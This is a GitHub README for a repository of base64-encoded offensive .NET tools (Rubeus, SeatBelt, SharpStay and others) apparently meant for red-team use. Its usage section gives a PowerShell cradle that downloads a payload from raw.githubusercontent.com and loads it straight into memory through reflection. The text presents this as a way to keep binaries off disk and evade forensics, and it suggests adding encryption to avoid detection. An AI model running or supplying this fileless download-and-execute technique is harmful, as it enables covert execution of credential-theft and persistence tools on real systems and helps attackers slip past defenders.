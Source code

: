 # LookingSharp
This repository has been created to hold all the .net binaries used for Reflection Assembly loading. For this to work the host has to be able to access githubusercontent.com. The reason for adding the Powershell v1.0 is because syswow64 lets you run 32 bit system executables from 64 bit code. Sysnative lets you run 64 bit system executables from 32 bit code.

# Tools currently available:
- ProcessManager
- Rubeus
- UrbanBishop
- SharpStay
- SeatBelt

# Usage:
```
%SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe
$content = (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/felixguerrero12/LookingSharp/master/txt/ProcessManager.txt')
$ProcessManagerAssembly = [System.Reflection.Assembly]::Load([Convert]::FromBase64String($content))
[ProcessManager.Program]::Main("".Split())
```

The above removes steps of downloading the binary and converting it into Assembly. Removes the binary from going on-disk and straight into memory. Operationally its a little bit cleaner on system forensics - If network capture is enabled on the environment the technique can be identified. You can add some sort of encryption to avoid detection.

*Disclaimer: Whatever is done with the tools in this repository are only liable with the offending operator(s).*
